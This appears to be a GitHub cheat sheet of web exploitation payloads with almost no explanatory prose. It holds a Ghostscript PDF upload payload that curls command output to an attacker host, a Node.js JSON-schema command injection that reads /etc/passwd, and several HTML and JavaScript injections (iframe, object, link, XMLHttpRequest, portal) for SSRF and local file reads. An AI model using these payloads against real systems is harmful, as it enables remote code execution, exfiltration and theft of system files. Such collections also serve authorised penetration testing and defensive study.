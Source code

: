 # Web Exploitation Methods

## Enumeration

### HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

## Exploitation

### PDF RCE

[https://www.openwall.com/lists/oss-security/2018/08/21/2](https://www.openwall.com/lists/oss-security/2018/08/21/2)

```
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf

%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```